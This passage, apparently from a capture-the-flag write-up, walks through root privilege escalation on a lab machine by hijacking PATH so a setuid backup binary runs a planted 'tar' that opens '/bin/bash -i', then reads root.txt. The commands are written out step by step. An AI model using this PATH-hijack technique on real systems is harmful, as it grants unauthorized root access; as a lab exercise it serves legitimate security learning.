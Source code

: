 ```
cat /usr/bin/pandora_backup
```

we can see it's an ELF file. We get a whole bunch of garbage back and `strings` isn't on this box for some reason, but there is some readable text in the output. The part that looks the most interesting to me is this

```
PandoraFMS Backup UtilityNow attempting to backup PandoraFMS clienttar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*Backup failed!
```

It looks like the file is just running this shell command

```bash
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/
```

Since the file doesn't specify the full path to the `tar` binary, we can use `PATH` variable manipulate which `tar` gets called. Right now, if we run

```bash
which tar
```

we get back `/usr/bin/tar`, but if we add our own folder to the `PATH` variable ahead of `/usr/bin`, we can point to a different `tar` file that we control.

First we make a directory and the new `tar` file

```bash
mkdir /tmp/stbytrndo
nano /tmp/stbytrndo/tar
```

Put this line inside the file
**`/tmp/stbytrndo/tar`**
```bash
/bin/bash -i
```

then save and exit.

Next we edit our `PATH` to add the new folder in the front (so it gets checked first).

```bash
export PATH=/tmp/stbytrndo:$PATH
```

Now if we run

```bash
which tar
```

we get back `/tmp/stbytrndo/tar`.

So all we need to do now is execute that `pandora_backup` file and it will execute our new `tar` file. Since the file is running with `setuid`, it will run as root, but still use our user's `PATH` variable. Just run

```bash
pandora_backup
```

and we're in as root!

Now we just

```bash
cat /root/root.txt
```

and we're done!